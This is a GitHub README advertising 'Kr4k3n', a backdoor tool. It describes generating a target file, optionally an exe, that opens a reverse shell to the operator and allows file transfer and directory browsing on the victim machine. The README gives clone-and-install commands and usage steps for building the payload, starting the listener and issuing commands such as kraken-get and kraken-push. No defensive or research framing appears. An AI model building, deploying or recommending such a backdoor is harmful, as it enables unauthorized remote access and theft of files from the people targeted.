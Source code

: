 # Kr4k3n Backdoor Tool
 Powerful and easy to use Backdoor.

## How it works
```
Using this tool you can easily and fast generate target file that will give you many features. Firstly, you can have access to target shell. Secondly, you can make file transfers between your and target machines. Thirdly, you can make directory movements.
```
## Features
- Reverse Shell
- File Transfer
- Directory Movement

## Installation:

One line installation:
```
$ git clone git@github.com:YanOScompany/kr4k3n && cd kr4k3n && chmod 755 install.sh && ./install.sh
```

Simple and quick installation:
```
$ git clone git@github.com:YanOScompany/kr4k3n
$ cd kr4k3n
$ chmod 755 install.sh && ./install.sh
```

## Usage:

![Video Tutorial](https://www.youtube.com/watch?v=b4WSImA3avQ)

Example usage:
```

1. Generate file | python2 Generate.py 127.0.0.1 8888 or to compile to exe add --compile (make sure that you have install pyinstaller)
2. Start kr4k3n and wait until your target connection. Example | python2 kr4k3n.py 127.0.0.1 8888
3. Use commands. Example | ls, ifconfig or kraken-get 11.png, kraken-push 11.png (for see all commands type kraken-help)
```
##My Instagram: @k4sh1r1nkut0 

